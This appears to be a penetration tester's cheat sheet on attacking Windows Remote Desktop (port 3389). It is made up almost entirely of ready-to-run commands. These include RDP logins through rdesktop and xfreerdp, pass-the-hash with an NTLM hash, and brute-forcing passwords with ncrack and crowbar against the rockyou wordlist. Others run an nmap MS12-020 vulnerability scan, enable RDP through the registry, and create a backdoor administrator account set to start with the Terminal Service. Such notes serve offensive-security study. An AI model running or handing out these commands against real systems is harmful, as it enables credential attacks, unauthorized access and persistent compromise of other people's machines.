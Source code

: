 ```yaml
---
category: Uncategorized
tags: []
---
```

Pay attention to the possibility of adding a user via other vulnerability and accessing by RDP. [[Port 139 445 (Exploits)#MS17-010 method 2 RDP]]

#### rdesktop Domain User:
```bash - kali
rdesktop -u $USER -p $PASSWORD -d $NETBIOS_DOMAIN_NAME -g 85% -r disk:share=/home/kali/Desktop/ $TARGET
```

#### rdesktop
```bash - kali
rdesktop $TARGET -u foobar -p Pass123 -g 1024x768 -x 0x80
```

Connect with share:
```bash - kali
rdesktop -u $USER -p $PASSWORD -g 85% -r disk:share=/home/kali/Desktop/ $TARGET
```

![[Pasted image 20220516171239.png]]

Guest login:
```bash - kali
rdesktop -u guest -p guest $TARGET -g 94%
```

#### xfreerdp Domain User:

```bash - kali
xfreerdp /u:$USER /p:$PASSWORD /d:$NETBIOS_DOMAIN_NAME /v:$TARGET
```

```bash - kali
xfreerdp /u:$USER /pth:$HASH /d:$NETBIOS_DOMAIN_NAME /v:$TARGET
```

Connect with share:
```bash - kali
xfreerdp /u:$USER /p:$PASSWORD /v:TARGET /drive:kali,/home/kali/Desktop/
```

#### xfreerdp
```bash - kali
xfreerdp /v:$TARGET -sec-nla /u:""
```

```bash - kali
xfreerdp /u:$USER /p:$PASSWORD /cert:ignore /v:$TARGET
```

#### nmap
```bash - kali
nmap -p 3389 --script=rdp-vuln-ms12-020.nse $TARGET
```

#### ncrack
```bash - kali
ncrack -vv --user $USER -P /usr/share/wordlists/rockyou.txt rdp://$TARGET
```

#### crowbar
```bash - kali
python crowbar.py -b rdp -s $TARGET/32 -u $USER -C ../rockyou.txt -v
```

### Enabling RDP
```command prompt - kali
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

#### Add a new user to Admin, good for RDP
```command prompt - kali
net user foobar Pass123 /add
```

```command prompt - kali
net localgroup Administrators foobar /add
```

```command prompt - kali
sc config TermService start=auto
```

```command prompt - kali
net start TermService
```

```bash - kali
rdesktop -g 85% -r disk:share=/home/kali/Desktop/ -u foobar -p Pass123 $TARGET
```

See also:
[[Crowbar]]